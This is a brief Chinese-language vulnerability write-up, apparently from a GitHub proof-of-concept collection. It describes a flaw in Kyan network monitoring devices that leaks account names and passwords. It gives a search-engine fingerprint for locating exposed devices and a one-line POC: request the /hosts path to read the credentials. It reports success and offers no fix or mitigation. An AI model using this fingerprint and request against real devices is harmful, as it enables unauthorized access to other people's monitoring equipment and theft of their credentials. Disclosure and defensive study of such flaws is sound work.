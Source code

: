 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

```
Kyan
```

## 网络测绘

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](images/202202140926162.png)

POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```

![](images/202202140927595.png)

成功获得账号密码



